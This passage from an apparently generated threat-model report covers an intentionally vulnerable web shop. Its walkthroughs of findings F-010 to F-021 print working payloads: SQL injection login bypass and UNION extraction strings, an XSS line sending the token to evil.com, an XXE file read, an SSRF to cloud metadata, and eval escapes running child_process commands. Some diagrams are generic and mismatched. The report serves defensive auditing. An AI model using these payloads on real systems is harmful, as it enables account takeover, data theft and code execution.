**Source:** 🔴 [F-010](#f-010) — `routes/login.ts:34`

Severity **Critical** ([CWE-89](https://cwe.mitre.org/data/definitions/89.html)). STRIDE: Spoofing. See [§8 F-010](#f-010) for the full register row.

**Attack Steps**

1. `routes/login.ts:34` interpolates `req.body.email` and `req.body.password` directly into a raw `models.sequelize.query()` call: `SELECT * FROM Users WHERE email = '${req.body.email}' AND password = '${security.hash(req.body.password)}' AND deletedAt IS NULL`.
2. Submitting `' OR '1'='1` as the email causes the WHERE clause to always evaluate true, returning the first row - which is the seeded admin account.
3. The attacker is logged in as admin without knowing any credential.

**Sequence Diagram**


```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant API
    participant DB
    Note over API: express-backend - routes/login.ts:34
    Note over DB: Database
    Attacker->>API: Crafted HTTP request to the affected endpoint with classical OR 1=1 payload
    API->>DB: SQL built by string interpolation - payload becomes query
    DB-->>API: First matching row regardless of intended predicate
    API-->>Attacker: 200 OK with authenticated session / leaked rows
    alt Current state — F-010
        Attacker->>API: Crafted request exploiting F-010 succeeds
        API-->>Attacker: Exploitation confirmed
    else After M-054 — Use parameterized database queries
        Attacker->>API: Same request after the fix is applied
        API-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-054](#m-054) (Use parameterized database queries) lands, 🔴 [F-010](#f-010) — SQL Injection Authentication Bypass — `routes/login.ts:34` is exploitable at `routes/login.ts:34` (Critical-severity, [CWE-89](https://cwe.mitre.org/data/definitions/89.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-054](#m-054) (Use parameterized database queries)

### 3.8 Hardcoded RSA Private Key — lib/insecurity.ts:23

**Source:** 🔴 [F-011](#f-011) — `lib/insecurity.ts:23`

Severity **Critical** ([CWE-321](https://cwe.mitre.org/data/definitions/321.html)). STRIDE: Spoofing. See [§8 F-011](#f-011) for the full register row.

**Attack Steps**

1. `lib/insecurity.ts:23` embeds the full RSA-2048 private key as a string literal in source code.
2. `authorize()` at line 56 signs JWT tokens with this key using `algorithm: 'RS256'`.
3. Any attacker who obtains the source (public repository) can call `jwt.sign({ data: { id: 1, role: 'admin' } }, privateKey, { algorithm: 'RS256', expiresIn: '6h' })` offline and produce a token the server accepts as the admin user.

**Sequence Diagram**


```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant Repo
    participant App
    Note over Repo: Public repository
    Note over App: express-backend - lib/insecurity.ts:23
    Attacker->>Repo: Clone or browse - extract private key from lib/insecurity.ts line 23
    Attacker->>Attacker: Sign forged token / signature with the extracted key
    Attacker->>App: Submit forged artefact in normal authentication flow
    App-->>Attacker: Request accepted as authentic - signature validates
    alt Current state — F-011
        Attacker->>Repo: Crafted request exploiting F-011 succeeds
        Repo-->>Attacker: Exploitation confirmed
    else After M-055 — Move cryptographic keys to a managed secret store
        Attacker->>Repo: Same request after the fix is applied
        Repo-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-055](#m-055) (Move cryptographic keys to a managed secret store) lands, 🔴 [F-011](#f-011) — Hardcoded RSA Private Key — `lib/insecurity.ts:23` is exploitable at `lib/insecurity.ts:23` (Critical-severity, [CWE-321](https://cwe.mitre.org/data/definitions/321.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-055](#m-055) (Move cryptographic keys to a managed secret store)

### 3.9 JWT Algorithm Restriction Absent in express-jwt Configurati…

**Source:** 🔴 [F-012](#f-012) — `lib/insecurity.ts:54`

Severity **Critical** ([CWE-347](https://cwe.mitre.org/data/definitions/347.html)). STRIDE: Spoofing. See [§8 F-012](#f-012) for the full register row.

**Attack Steps**

1. `expressJwt({ secret: publicKey })` at `lib/insecurity.ts:54` does not pass an `algorithms` allowlist.
2. `express-jwt@0.1.3` passes the algorithm from the token header directly to `jsonwebtoken.verify()`.
3. Two attacks follow: (1) An attacker sets `alg: 'none'` and strips the signature - the token verifies without a secret.

**Sequence Diagram**


```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant App
    Note over App: express-backend - lib/insecurity.ts:54
    Attacker->>App: Crafted request exercising the weakness at lib/insecurity.ts line 54
    App->>App: Vulnerable branch executes without the missing control
    App-->>Attacker: Response confirms the weakness - CWE-347
    alt Current state — F-012
        Attacker->>App: Crafted request exploiting F-012 succeeds
        App-->>Attacker: Exploitation confirmed
    else After M-056 — Enforce JWT signature and algorithm verification
        Attacker->>App: Same request after the fix is applied
        App-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-056](#m-056) (Enforce JWT signature and algorithm verification) lands, 🔴 [F-012](#f-012) — JWT Algorithm Restriction Absent in express-jwt Configuration — `lib/insecurity.ts:54` is exploitable at `lib/insecurity.ts:54` (Critical-severity, [CWE-347](https://cwe.mitre.org/data/definitions/347.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-056](#m-056) (Enforce JWT signature and algorithm verification)

### 3.10 Hardcoded RSA Private Key Enables Offline JWT Forgery — lib…

**Source:** 🔴 [F-013](#f-013) — `lib/insecurity.ts:23`

Severity **Critical** ([CWE-798](https://cwe.mitre.org/data/definitions/798.html)). STRIDE: Spoofing. See [§8 F-013](#f-013) for the full register row.

**Attack Steps**

1. The RSA-2048 private key used to sign all JWTs is embedded as a string literal at `lib/insecurity.ts:23`.
2. Any developer, contractor, or attacker with read access to the source repository can extract the key and sign arbitrary JWT payloads offline - including payloads claiming `role: 'admin'` or any other user identity.
3. Because `security.authorize()` at line 56 signs with this literal `privateKey`, the attacker-forged token is indistinguishable from a legitimately issued one.

**Sequence Diagram**


```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant App
    Note over App: express-backend - lib/insecurity.ts:23
    Attacker->>App: Crafted request exercising the weakness at lib/insecurity.ts line 23
    App->>App: Vulnerable branch executes without the missing control
    App-->>Attacker: Response confirms the weakness - CWE-798
    alt Current state — F-013
        Attacker->>App: Crafted request exploiting F-013 succeeds
        App-->>Attacker: Exploitation confirmed
    else After M-057 — Move secrets to a managed secret store
        Attacker->>App: Same request after the fix is applied
        App-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-057](#m-057) (Move secrets to a managed secret store) lands, 🔴 [F-013](#f-013) — Hardcoded RSA Private Key Enables Offline JWT Forgery — `lib/insecurity.ts:23` is exploitable at `lib/insecurity.ts:23` (Critical-severity, [CWE-798](https://cwe.mitre.org/data/definitions/798.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-057](#m-057) (Move secrets to a managed secret store)

### 3.11 Stored Cross-Site Scripting — administration.component.ts:78

**Source:** 🔴 [F-014](#f-014) — `frontend/src/app/administration/administration.component.ts:78`

Severity **Critical** ([CWE-79](https://cwe.mitre.org/data/definitions/79.html)). STRIDE: Tampering. See [§8 F-014](#f-014) for the full register row.

**Attack Steps**

1. The `AdministrationComponent` loads all user feedback via the admin API and renders each comment at `administration.component.ts:78` using `feedback.comment = this.sanitizer.bypassSecurityTrustHtml(feedback.comment)`.
2. Any customer who submits a feedback comment containing `<script>` or event-handler markup will have that payload execute in the browser of every administrator who opens the administration panel.
3. This is a high-value stored XSS target because administrators have elevated privileges - their sessions, once hijacked, allow full data access via the admin API.

**Sequence Diagram**


```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    actor Victim
    participant App
    Note over App: angular-spa - frontend/src/app/administration/administration.component.ts:78
    Attacker->>App: Stored feedback / comment submission (HTML payload) with HTML payload - onerror handler exfiltrates cookies
    Victim->>App: Loads page rendering the stored / reflected payload
    App-->>Victim: HTML contains the unescaped attacker payload - script executes
    Victim->>Attacker: Outbound request leaks session cookie / token
    alt Current state — F-014
        Attacker->>App: Crafted request exploiting F-014 succeeds
        App-->>Attacker: Exploitation confirmed
    else After M-058 — Encode output instead of bypassing the framework sanitizer
        Attacker->>App: Same request after the fix is applied
        App-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-058](#m-058) (Encode output instead of bypassing the framework sanitizer) lands, 🔴 [F-014](#f-014) — Stored Cross-Site Scripting — `administration.component.ts:78` is exploitable at `frontend/src/app/administration/administration.component.ts:78` (Critical-severity, [CWE-79](https://cwe.mitre.org/data/definitions/79.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-058](#m-058) (Encode output instead of bypassing the framework sanitizer)

### 3.12 Stored Cross-Site Scripting — search-result.component.ts:132

**Source:** 🔴 [F-015](#f-015) — `frontend/src/app/search-result/search-result.component.ts:132`

Severity **Critical** ([CWE-79](https://cwe.mitre.org/data/definitions/79.html)). STRIDE: Tampering. See [§8 F-015](#f-015) for the full register row.

**Attack Steps**

1. The `trustProductDescription()` method at `search-result.component.ts:132` calls `this.sanitizer.bypassSecurityTrustHtml(tableData[i].description)` for every product in the search result list.
2. An attacker with the ability to inject a crafted product description into the backend (e.g. via the admin product-management API or a SQLi-based data poisoning) can embed arbitrary JavaScript payloads - `<script>fetch('https://evil.com?t='+localStorage.token)</script>` - that execute in every authenticated user's browser when they view the search results page.
3. Because the JWT is in `localStorage` (not an `httpOnly` cookie), the injected script can silently exfiltrate the session token.

**Sequence Diagram**


```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    actor Victim
    participant App
    Note over App: angular-spa - frontend/src/app/search-result/search-result.component.ts:132
    Attacker->>App: Stored product description / review (HTML payload) with HTML payload - onerror handler exfiltrates cookies
    Victim->>App: Loads page rendering the stored / reflected payload
    App-->>Victim: HTML contains the unescaped attacker payload - script executes
    Victim->>Attacker: Outbound request leaks session cookie / token
    alt Current state — F-015
        Attacker->>App: Crafted request exploiting F-015 succeeds
        App-->>Attacker: Exploitation confirmed
    else After M-059 — Encode output instead of bypassing the framework sanitizer
        Attacker->>App: Same request after the fix is applied
        App-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-059](#m-059) (Encode output instead of bypassing the framework sanitizer) lands, 🔴 [F-015](#f-015) — Stored Cross-Site Scripting — `search-result.component.ts:132` is exploitable at `frontend/src/app/search-result/search-result.component.ts:132` (Critical-severity, [CWE-79](https://cwe.mitre.org/data/definitions/79.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-059](#m-059) (Encode output instead of bypassing the framework sanitizer)

### 3.13 Reflected Cross-Site Scripting — search-result.component.ts…

**Source:** 🔴 [F-016](#f-016) — `frontend/src/app/search-result/search-result.component.ts:170`

Severity **Critical** ([CWE-79](https://cwe.mitre.org/data/definitions/79.html)). STRIDE: Tampering. See [§8 F-016](#f-016) for the full register row.

**Attack Steps**

1. The `filterTable()` method at `search-result.component.ts:170` assigns `this.searchValue = this.sanitizer.bypassSecurityTrustHtml(queryParam)` where `queryParam` comes directly from `this.route.snapshot.queryParams.q`.
2. The `searchValue` is rendered in the search-result template as trusted HTML.
3. An attacker crafts a URL such as `/#/search?q=` and sends it to a victim.

**Sequence Diagram**


```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    actor Victim
    participant App
    Note over App: angular-spa - frontend/src/app/search-result/search-result.component.ts:170
    Attacker->>App: Crafted search query (HTML payload in `q=` parameter) with HTML payload - onerror handler exfiltrates cookies
    Victim->>App: Loads page rendering the stored / reflected payload
    App-->>Victim: HTML contains the unescaped attacker payload - script executes
    Victim->>Attacker: Outbound request leaks session cookie / token
    alt Current state — F-016
        Attacker->>App: Crafted request exploiting F-016 succeeds
        App-->>Attacker: Exploitation confirmed
    else After M-060 — Encode output instead of bypassing the framework sanitizer
        Attacker->>App: Same request after the fix is applied
        App-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-060](#m-060) (Encode output instead of bypassing the framework sanitizer) lands, 🔴 [F-016](#f-016) — Reflected Cross-Site Scripting — `search-result.component.ts:170` is exploitable at `frontend/src/app/search-result/search-result.component.ts:170` (Critical-severity, [CWE-79](https://cwe.mitre.org/data/definitions/79.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-060](#m-060) (Encode output instead of bypassing the framework sanitizer)

### 3.14 SQL Injection UNION Data Extraction — routes/search.ts:23

**Source:** 🔴 [F-017](#f-017) — `routes/search.ts:23`

Severity **Critical** ([CWE-89](https://cwe.mitre.org/data/definitions/89.html)). STRIDE: Tampering. See [§8 F-017](#f-017) for the full register row.

**Attack Steps**

1. `routes/search.ts:23` builds: `SELECT * FROM Products WHERE ((name LIKE '%${criteria}%' OR description LIKE '%${criteria}%') AND deletedAt IS NULL) ORDER BY name`.
2. Submitting `%')) UNION SELECT email,password,username,role,NULL,NULL,NULL,NULL,NULL FROM Users--` as `q` extracts all user rows including hashed passwords and roles.
3. Because the hash is `MD5` (unsalted), password cracking is fast.

**Sequence Diagram**

```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant API
    participant DB
    Note over API: express-backend - routes/search.ts:23
    Note over DB: Database
    Attacker->>API: Stored attacker-controlled email at registration (HTML payload) with classical OR 1=1 payload
    API->>DB: SQL built by string interpolation - payload becomes query
    DB-->>API: First matching row regardless of intended predicate
    API-->>Attacker: 200 OK with authenticated session / leaked rows
    alt Current state — F-017
        Attacker->>API: Crafted request exploiting F-017 succeeds
        API-->>Attacker: Exploitation confirmed
    else After M-061 — Use parameterized database queries
        Attacker->>API: Same request after the fix is applied
        API-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-061](#m-061) (Use parameterized database queries) lands, 🔴 [F-017](#f-017) — SQL Injection UNION Data Extraction — `routes/search.ts:23` is exploitable at `routes/search.ts:23` (Critical-severity, [CWE-89](https://cwe.mitre.org/data/definitions/89.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-061](#m-061) (Use parameterized database queries)

### 3.15 XML External Entity Expansion — routes/fileUpload.ts:83

**Source:** 🔴 [F-018](#f-018) — `routes/fileUpload.ts:83`

Severity **Critical** ([CWE-611](https://cwe.mitre.org/data/definitions/611.html)). STRIDE: Information Disclosure. See [§8 F-018](#f-018) for the full register row.

**Attack Steps**

1. At `routes/fileUpload.ts:83`, uploaded XML is parsed with `libxml.parseXml(data, { noblanks: true, noent: true, nocdata: true })`.
2. The `noent: true` flag instructs libxmljs2 to expand external entities.
3. An attacker uploads an XML file with `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>`.

**Sequence Diagram**

```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant App
    Note over App: file-upload-service - routes/fileUpload.ts:83
    Attacker->>App: Crafted request exercising the weakness at routes/fileUpload.ts line 83
    App->>App: Vulnerable branch executes without the missing control
    App-->>Attacker: Response confirms the weakness - CWE-611
    alt Current state — F-018
        Attacker->>App: Crafted request exploiting F-018 succeeds
        App-->>Attacker: Exploitation confirmed
    else After M-062 — Disable XML external entity (XXE) resolution
        Attacker->>App: Same request after the fix is applied
        App-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-062](#m-062) (Disable XML external entity (XXE) resolution) lands, 🔴 [F-018](#f-018) — XML External Entity Expansion — `routes/fileUpload.ts:83` is exploitable at `routes/fileUpload.ts:83` (Critical-severity, [CWE-611](https://cwe.mitre.org/data/definitions/611.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-062](#m-062) (Disable XML external entity (XXE) resolution)

### 3.16 Unfiltered SSRF — routes/profileImageUrlUpload.ts:24

**Source:** 🔴 [F-019](#f-019) — `routes/profileImageUrlUpload.ts:24`

Severity **Critical** ([CWE-918](https://cwe.mitre.org/data/definitions/918.html)). STRIDE: Information Disclosure. See [§8 F-019](#f-019) for the full register row.

**Attack Steps**

1. At `routes/profileImageUrlUpload.ts:24`, `fetch(url)` is called with `url = req.body.imageUrl` directly.
2. The only filter applied before the fetch is a regex check for challenge-flag patterns at line 20 (`url.match(/(.)*solve\/challenges\/server-side(.)*/)`) - this does not prevent SSRF to internal services.
3. An authenticated attacker submits `{"imageUrl": "http://169.254.169.254/latest/meta-data/iam/security-credentials/"}` (AWS IMDS), `http://localhost:3000/api/Users` (internal API), or any private-range IP.

**Sequence Diagram**

```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant App
    Note over App: file-upload-service - routes/profileImageUrlUpload.ts:24
    Attacker->>App: Crafted request exercising the weakness at routes/profileImageUrlUpload.ts line 24
    App->>App: Vulnerable branch executes without the missing control
    App-->>Attacker: Response confirms the weakness - CWE-918
    alt Current state — F-019
        Attacker->>App: Crafted request exploiting F-019 succeeds
        App-->>Attacker: Exploitation confirmed
    else After M-063 — Validate and allowlist outbound request targets
        Attacker->>App: Same request after the fix is applied
        App-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-063](#m-063) (Validate and allowlist outbound request targets) lands, 🔴 [F-019](#f-019) — Unfiltered SSRF — `routes/profileImageUrlUpload.ts:24` is exploitable at `routes/profileImageUrlUpload.ts:24` (Critical-severity, [CWE-918](https://cwe.mitre.org/data/definitions/918.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-063](#m-063) (Validate and allowlist outbound request targets)

### 3.17 JavaScript Sandbox Escape — routes/b2bOrder.ts:23

**Source:** 🔴 [F-020](#f-020) — `routes/b2bOrder.ts:23`

Severity **Critical** ([CWE-94](https://cwe.mitre.org/data/definitions/94.html)). STRIDE: Elevation of Privilege. See [§8 F-020](#f-020) for the full register row.

**Attack Steps**

1. An authenticated attacker (or one with a forged JWT - see b2b-api-003) submits a POST `/b2b/v2/orders` request with a crafted `orderLinesData` payload such as `safeEval.constructor.constructor('return process.mainModule.require("child_process").execSync("id")')()`.
2. The `sandbox` object at line 21 exposes `safeEval` (the `notevil` function) as a property. `notevil` 1.3.3 does not block access to `Function.prototype.constructor`, so the attacker traverses `safeEval → Function → Function('…')()` to obtain the host Node\.js `process` object.
3. From there, arbitrary OS commands execute in the context of the Node\.js process user.

**Sequence Diagram**

```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant API
    participant Sandbox
    Note over API: b2b-api - routes/b2bOrder.ts:23
    Note over Sandbox: Eval / VM context
    Attacker->>API: POST /b2b/v2/orders with JS payload escaping the sandbox
    API->>Sandbox: Pass attacker-controlled code to eval / vm.runInContext
    Sandbox->>Sandbox: Prototype-walk reaches the host realm - RCE
    API-->>Attacker: Command output / arbitrary side effects
    alt Current state — F-020
        Attacker->>API: Crafted request exploiting F-020 succeeds
        API-->>Attacker: Exploitation confirmed
    else After M-064 — Remove server-side evaluation of untrusted input
        Attacker->>API: Same request after the fix is applied
        API-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-064](#m-064) (Remove server-side evaluation of untrusted input) lands, 🔴 [F-020](#f-020) — JavaScript Sandbox Escape — `routes/b2bOrder.ts:23` is exploitable at `routes/b2bOrder.ts:23` (Critical-severity, [CWE-94](https://cwe.mitre.org/data/definitions/94.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-064](#m-064) (Remove server-side evaluation of untrusted input)

### 3.18 Server-Side Template Injection — routes/userProfile.ts:62

**Source:** 🔴 [F-021](#f-021) — `routes/userProfile.ts:62`

Severity **Critical** ([CWE-94](https://cwe.mitre.org/data/definitions/94.html)). STRIDE: Elevation of Privilege. See [§8 F-021](#f-021) for the full register row.

**Attack Steps**

1. `eval(code)` at `routes/userProfile.ts:62` executes the content of the `username` field when it matches the `#{…}` pattern.
2. A user sets their username to `#{process.mainModule.require('child_process').execSync('id').toString()}` through `/profile` POST.
3. The next `GET /profile` request evaluates this expression in the Node\.js process context.

**Sequence Diagram**

```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant API
    participant Sandbox
    Note over API: express-backend - routes/userProfile.ts:62
    Note over Sandbox: Eval / VM context
    Attacker->>API: GET /profile with JS payload escaping the sandbox
    API->>Sandbox: Pass attacker-controlled code to eval / vm.runInContext
    Sandbox->>Sandbox: Prototype-walk reaches the host realm - RCE
    API-->>Attacker: Command output / arbitrary side effects
    alt Current state — F-021
        Attacker->>API: Crafted request exploiting F-021 succeeds
        API-->>Attacker: Exploitation confirmed
    else After M-065 — Remove server-side evaluation of untrusted input
        Attacker->>API: Same request after the fix is applied
        API-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-065](#m-065) (Remove server-side evaluation of untrusted input) lands, 🔴 [F-021](#f-021) — Server-Side Template Injection — `routes/userProfile.ts:62` is exploitable at `routes/userProfile.ts:62` (Critical-severity, [CWE-94](https://cwe.mitre.org/data/definitions/94.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-065](#m-065) (Remove server-side evaluation of untrusted input)

<!-- generated:walkthrough_renderer -->

---

## 4. Assets

Information assets and the classification level that drives the Confidentiality / Integrity / Availability targets used in [§8 Findings Register](#8-findings-register) risk scoring.

<table style="table-layout:fixed;width:100%">
<colgroup><col style="width:20%"><col style="width:6%"><col style="width:12%"><col style="width:29%"><col style="width:33%"></colgroup>
<thead><tr><th>Asset</th><th>ID</th><th>Classification</th><th>Description</th><th>Linked Threats</th></tr></thead>
<tbody>
<tr><td style="overflow-wrap:anywhere">JWT RSA Private Key</td><td style="white-space:nowrap">A-001</td><td>Restricted</td><td>RS-2048 RSA private key used to sign all JWT tokens. Hardcoded in <code>lib/insecurity.ts:23</code> and committed to the public GitHub repository. Compromise allows forging admin and user JWTs offline.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-001">F-001</a> — Hardcoded RSA Private Key Enables JWT Forgery (<code>lib/insecurity.ts:54</code>)<br/>🔴 <a href="#f-007">F-007</a> — JWT verify call missing algorithms allowlist (<code>lib/insecurity.ts:191</code>)<br/>🔴 <a href="#f-011">F-011</a> — Hardcoded RSA Private Key (<code>lib/insecurity.ts:23</code>)<br/>🔴 <a href="#f-012">F-012</a> — JWT Algorithm Restriction Absent in express-jwt Configuration (<code>lib/insecurity.ts:54</code>)<br/>🔴 <a href="#f-013">F-013</a> — Hardcoded RSA Private Key Enables Offline JWT Forgery (<code>lib/insecurity.ts:23</code>)<br/>🟠 <a href="#f-034">F-034</a> — Unencrypted SQLite Database at Rest (<code>models/index.ts:38</code>)<br/>🟠 <a href="#f-035">F-035</a> — Sensitive Files Publicly Served (<code>ftp/acquisitions.md:1</code>)<br/>🟠 <a href="#f-036">F-036</a> — Weak Password Hashing MD5 Without Salt (<code>lib/insecurity.ts:43</code>)<br/>🟠 <a href="#f-043">F-043</a> — Zip Slip Path Traversal in Complaint File Upload Handler (<code>routes/fileUpload.ts:44</code>)<br/>🟡 <a href="#f-048">F-048</a> — Open Redirect (<code>lib/insecurity.ts:138</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">User Credentials Database</td><td style="white-space:nowrap">A-002</td><td>Restricted</td><td>SQLite database storing user email addresses and <code>MD5</code>-hashed passwords. Accessible via SQL injection. <code>MD5</code> hashing makes offline cracking trivial.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-010">F-010</a> — SQL Injection Authentication Bypass (<code>routes/login.ts:34</code>)<br/>🔴 <a href="#f-014">F-014</a> — Stored Cross-Site Scripting (<code>administration.component.ts:78</code>)<br/>🔴 <a href="#f-015">F-015</a> — Stored Cross-Site Scripting (<code>search-result.component.ts:132</code>)<br/>🔴 <a href="#f-016">F-016</a> — Reflected Cross-Site Scripting (<code>search-result.component.ts:170</code>)<br/>🔴 <a href="#f-017">F-017</a> — SQL Injection UNION Data Extraction (<code>routes/search.ts:23</code>)<br/>🟠 <a href="#f-023">F-023</a> — Stored Cross-Site Scripting (<code>last-login-ip.component.ts:39</code>)<br/>🟠 <a href="#f-024">F-024</a> — Stored Cross-Site Scripting (<code>track-result.component.ts:48</code>)<br/>🟠 <a href="#f-034">F-034</a> — Unencrypted SQLite Database at Rest (<code>models/index.ts:38</code>)<br/>🟠 <a href="#f-036">F-036</a> — Weak Password Hashing MD5 Without Salt (<code>lib/insecurity.ts:43</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">Active JWT Session Tokens</td><td style="white-space:nowrap">A-006</td><td>Restricted</td><td><code>RS256</code>-signed JWTs held in localStorage and in-memory token map. 6-hour expiry. Forgeable with committed private key. In-memory store has no revocation mechanism.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-001">F-001</a> — Hardcoded RSA Private Key Enables JWT Forgery (<code>lib/insecurity.ts:54</code>)<br/>🟠 <a href="#f-003">F-003</a> — JWT Session Token Stored in localStorage (<code>request.interceptor.ts:13</code>)<br/>🔴 <a href="#f-011">F-011</a> — Hardcoded RSA Private Key (<code>lib/insecurity.ts:23</code>)<br/>🔴 <a href="#f-013">F-013</a> — Hardcoded RSA Private Key Enables Offline JWT Forgery (<code>lib/insecurity.ts:23</code>)<br/>🟠 <a href="#f-034">F-034</a> — Unencrypted SQLite Database at Rest (<code>models/index.ts:38</code>)<br/>🟠 <a href="#f-035">F-035</a> — Sensitive Files Publicly Served (<code>ftp/acquisitions.md:1</code>)<br/>🟠 <a href="#f-043">F-043</a> — Zip Slip Path Traversal in Complaint File Upload Handler (<code>routes/fileUpload.ts:44</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">Application Server Process</td><td style="white-space:nowrap">A-009</td><td>Restricted</td><td>Node\.js 20-24 process running as UID 65532 in distroless container. RCE via B2B eval or SSTI yields full process-level access including all in-memory data.</td><td style="overflow-wrap:anywhere">-</td></tr>
<tr><td style="overflow-wrap:anywhere">Customer PII (names, addresses, payment methods)</td><td style="white-space:nowrap">A-003</td><td>Confidential</td><td>User profile data, delivery addresses, and payment card details stored in SQLite. Exposed via mass assignment, IDOR, or SQL injection.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-002">F-002</a> — Systemic Broken Authorization Attacker-Controlled Owner ID Across Resource Endp (<code>routes/address.ts:11</code>)<br/>🟠 <a href="#f-005">F-005</a> — Unauthenticated Sensitive REST Routes (<code>server.ts:310</code>)<br/>🔴 <a href="#f-010">F-010</a> — SQL Injection Authentication Bypass (<code>routes/login.ts:34</code>)<br/>🔴 <a href="#f-014">F-014</a> — Stored Cross-Site Scripting (<code>administration.component.ts:78</code>)<br/>🔴 <a href="#f-015">F-015</a> — Stored Cross-Site Scripting (<code>search-result.component.ts:132</code>)<br/>🔴 <a href="#f-016">F-016</a> — Reflected Cross-Site Scripting (<code>search-result.component.ts:170</code>)<br/>🔴 <a href="#f-017">F-017</a> — SQL Injection UNION Data Extraction (<code>routes/search.ts:23</code>)<br/>🔴 <a href="#f-021">F-021</a> — Server-Side Template Injection (<code>routes/userProfile.ts:62</code>)<br/>🟠 <a href="#f-023">F-023</a> — Stored Cross-Site Scripting (<code>last-login-ip.component.ts:39</code>)<br/>🟠 <a href="#f-024">F-024</a> — Stored Cross-Site Scripting (<code>track-result.component.ts:48</code>)<br/>🟠 <a href="#f-034">F-034</a> — Unencrypted SQLite Database at Rest (<code>models/index.ts:38</code>)<br/>🟠 <a href="#f-042">F-042</a> — IDOR Missing Ownership Check on Recycles Endpoint (<code>routes/recycles.ts:14</code>)<br/>🟠 <a href="#f-046">F-046</a> — Attacker-Controlled UserId in Memory Upload (<code>routes/memory.ts:24</code>)<br/>🟠 <a href="#f-060">F-060</a> — Data disclosure (<code>challenges.yml:1381</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">FTP Directory Sensitive Files</td><td style="white-space:nowrap">A-004</td><td>Confidential</td><td>ftp/ directory served via serve-index with unauthenticated directory listing. Contains <code>acquisitions.md</code> (M&amp;A data), incident-<code>support.kdbx</code> (KeePass DB), coupon codes, and <code>package-lock.json</code> backups.</td><td style="overflow-wrap:anywhere">🟠 <a href="#f-005">F-005</a> — Unauthenticated Sensitive REST Routes (<code>server.ts:310</code>)<br/>🟠 <a href="#f-033">F-033</a> — On absent from repository (<code>package-lock.json:1</code>)<br/>🟠 <a href="#f-035">F-035</a> — Sensitive Files Publicly Served (<code>ftp/acquisitions.md:1</code>)<br/>🟠 <a href="#f-038">F-038</a> — Unauthenticated Directory Listing of <code>/support/logs</code> and <code>/encryptionkeys</code> (<code>server.ts:281</code>)<br/>🟠 <a href="#f-043">F-043</a> — Zip Slip Path Traversal in Complaint File Upload Handler (<code>routes/fileUpload.ts:44</code>)<br/>🟡 <a href="#f-054">F-054</a> — On postinstall hook present and not audited (<code>package.json:88</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">Application Source Code</td><td style="white-space:nowrap">A-005</td><td>Internal</td><td>Full TypeScript source on public GitHub. Reveals all vulnerability locations, hardcoded secrets, challenge logic, and internal architecture.</td><td style="overflow-wrap:anywhere">-</td></tr>
<tr><td style="overflow-wrap:anywhere">Product Catalogue and Business Data</td><td style="white-space:nowrap">A-007</td><td>Internal</td><td>Product details, prices, and challenge metadata stored in SQLite. Mutable via missing authorization on PUT <code>/api/Products/:id</code>.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-010">F-010</a> — SQL Injection Authentication Bypass (<code>routes/login.ts:34</code>)<br/>🔴 <a href="#f-014">F-014</a> — Stored Cross-Site Scripting (<code>administration.component.ts:78</code>)<br/>🔴 <a href="#f-015">F-015</a> — Stored Cross-Site Scripting (<code>search-result.component.ts:132</code>)<br/>🔴 <a href="#f-016">F-016</a> — Reflected Cross-Site Scripting (<code>search-result.component.ts:170</code>)<br/>🔴 <a href="#f-017">F-017</a> — SQL Injection UNION Data Extraction (<code>routes/search.ts:23</code>)<br/>🟠 <a href="#f-022">F-022</a> — Missing OAuth State Parameter Enables CSRF on Authorization Callback (<code>login.component.ts:134</code>)<br/>🟠 <a href="#f-023">F-023</a> — Stored Cross-Site Scripting (<code>last-login-ip.component.ts:39</code>)<br/>🟠 <a href="#f-024">F-024</a> — Stored Cross-Site Scripting (<code>track-result.component.ts:48</code>)</td></tr>
